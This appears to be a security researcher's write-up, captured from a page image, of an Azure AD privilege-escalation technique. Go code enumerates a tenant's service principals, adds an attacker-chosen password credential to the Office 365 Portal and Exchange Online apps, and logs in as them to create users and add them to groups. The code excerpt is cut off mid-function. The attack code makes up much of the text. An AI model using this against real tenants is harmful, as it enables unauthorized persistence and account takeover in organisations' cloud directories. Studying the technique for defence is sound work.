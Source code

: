 ```go
        log.Println("Error on response.\n[ERRO] -", err)
    }

    defer resp.Body.Close()
    var result AllTheSpns_t

    json.NewDecoder(resp.Body).Decode(&result)

    return result
}
```

## Microsoft Office 365 Portal & Office 365 Exchange Online
I was able to get a list of all service principals available, i didnt have many and needed to add a trial 0365 license to my tenant to view some of the better ones with more permissions such as Microsoft Office 365 Portal & Office 365 Exchange Online.
dirkjan goes into detail on his blog post on assigning credentials to these apps and checking the roles they are assigned.
For some reason i was not able to login to many of the apps after assigning a password credential (i would get back a client secret invalid error). Only a few and the ones that i was able to login to didnt have many roles assigned.
I settled on using Microsoft Office 365 Portal & Office 365 Exchange Online in tandem as one has user.ReadWrite access and the other has group.ReadWrite Access.

## Create user/add to group
Basically the code loops through the list of SPN's returned and looks for those two display names.
Then adds a predefined password credential to both service principals. Logs in as each and creates as user then loops through the azure AD groups available and asks if the user should be added.
```go
SPNs := GetSPs(authToken,TenantId)
    for x := range SPNs.Value{
        if SPNs.Value[x].AppDisplayName == "Microsoft Office 365 Portal"{
            O365Found = true
            fmt.Println("[*] Found 0365 Portal App")
            fmt.Println("[*] Attempting to add Password Credential")
            O365AppObjId := SPNs.Value[x].ObjectID
            O365AppId := SPNs.Value[x].AppID
            fmt.Println("[*] Found Obj ID")
            fmt.Println(O365AppObjId)
            fmt.Println("[*] Found App ID")
            fmt.Println(O365AppId)
            var NewCredsToAdd PasswordCredentials
            NewCredsToAdd.StartDate = now_t
            NewCredsToAdd.EndDate = then_t
            NewCredsToAdd.Value = pwndpass
            SPNs.Value[x].PasswordCredentialss = append(SPNs.Value[x].PasswordCredentialss,NewCredsToAdd)
            Ready2PostPassWords := make(map[string]interface{})
            Ready2PostPassWords["passwordCredentials"] = SPNs.Value[x].PasswordCredentialss
            AddPassResult := AddPasswordToSP(authToken,Ready2PostPassWords,O365AppObjId,TenantId)
            if AddPassResult == "error" {
                fmt.Println("[*] Error Adding PasswordCredential To O365 Portal App")
                fmt.Println("[*] Exiting....")
                os.Exit(2)
            }else{
                fmt.Println("[*] Successfully Added PasswordCredentials To O365 Portal App")
                fmt.Printf("[*] PasswordCredentials :=> %s : %s\n",O365AppId,NewCredsToAdd.Value)
            }
            fmt.Printf("[*] Attempting To Login As The O365 Application...\n")
            O365AuthTokenStruct = authAsSPN("https://graph.windows.net",SPNs.Value[x].AppID,NewCredsToAdd.Value.(string),TenantId)

```